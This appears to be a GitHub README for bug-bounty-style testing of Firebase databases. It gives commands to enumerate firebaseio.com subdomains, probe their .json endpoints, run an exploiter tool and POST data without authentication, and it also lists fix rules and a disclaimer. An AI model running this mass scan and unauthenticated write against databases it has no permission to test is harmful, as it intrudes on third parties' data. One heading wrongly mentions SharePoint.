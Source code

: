 
# 📝 Firebase Subdomain Enumeration & PoC Testing

This repository provides a workflow to find subdomains of `firebaseio.com`, test them for public accessibility, and exploit a `.json` endpoint to check for write vulnerabilities. Additionally, mitigation steps are provided to fix the issue.

## ⌛ Requirements
- [Subfinder](https://github.com/projectdiscovery/subfinder)
- [Httpx](https://github.com/projectdiscovery/httpx)
- Curl
- [Firebase Exploiter](https://github.com/securebinary/firebaseExploiter)

## 🔍 Workflow

### ✅ Subdomain Enumeration
Use `subfinder` to enumerate subdomains for `firebaseio.com`:

```bash
subfinder -d firebaseio.com -o subdomains.txt
```

### ✅ Test Subdomains
Once subdomains are collected, use `httpx` to check `.json` endpoints for accessible responses (HTTP status code 200):

```bash
httpx -l subdomains.txt -path "/.json" -mc 200 -o valid_subdomains.txt
```
### ✅ Firebase Checking vulnerability
```bash
firebaseExploiter -file valid_subdomains.txt
```

### ✅ PoC Testing
Use `curl` to send a POST request to the `.json` endpoint to test if data can be written without authentication:

```bash
curl -X POST https://<subdomain>.firebaseio.com/.json -d '{"test":"poc"}' -H "Content-Type: application/json"
```

If successful, the server is vulnerable to unauthenticated write access.

### 🔨 How to Fix it :
To secure the Firebase database:

1. **Set Firebase Database Rules**:
   - Open the Firebase Console.
   - Go to *Database > Rules*.
   - Update the rules to restrict access only to authenticated users. Example:
     ```json
     {
       "rules": {
         ".read": "auth != null",
         ".write": "auth != null"
       }
     }
     ```

2. **Audit Subdomains**:
   - Ensure there are no unused or publicly misconfigured Firebase databases.

3. **Monitor Activity Logs**:
   - Use Firebase to monitor access logs for suspicious activities.
   
## 📝 Alternative Methods to Identify SharePoint Sites

### Using Search Engines
- **FOFA**:  
  Query: `"domain="firebaseio.com""`

- **Shodan**:  
  Query: `http.title:"Firebase""`

- **ZoomEye**:  
  Query: `site:"firebaseio.com""`

## ⭐ References

Here are real-world examples of Firebaseio vulnerabilities reported on HackerOne :

- [HackerOne Report 1065134](https://hackerone.com/reports/1065134)  
- [HackerOne Report 1447751](https://hackerone.com/reports/1447751)  
- [HackerOne Report 736283](https://hackerone.com/reports/736283)  
- [HackerOne Report 684099](https://hackerone.com/reports/684099)


## ⚠️ Disclaimer
This script is intended for educational purposes and for security testing of systems you own or have explicit permission to test. Do not use this for unauthorized activities.

## 💰 Support Me  

If you find this work helpful, you can support me:  
- [![Buy Me a Coffee](https://www.buymeacoffee.com/assets/img/custom_images/yellow_img.png)](https://buymeacoffee.com/ghost_sec)  

Thanks for your support! ❤️
